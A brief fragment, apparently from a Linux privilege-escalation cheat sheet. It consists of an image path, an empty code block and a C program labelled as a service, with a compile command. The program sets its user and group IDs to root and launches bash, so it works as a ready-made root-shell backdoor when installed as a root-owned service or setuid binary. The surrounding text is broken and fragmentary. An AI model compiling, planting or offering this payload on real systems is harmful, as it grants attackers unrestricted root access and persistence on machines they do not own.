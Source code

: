 ```c

```
#### Linux service C code
```C
// gcc shell_service.c -o shell_service
#include <stdlib.h>
#include <unistd.h>

int main() {
    setuid(0);               // Ensure root privileges if installed as root-owned
    setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```
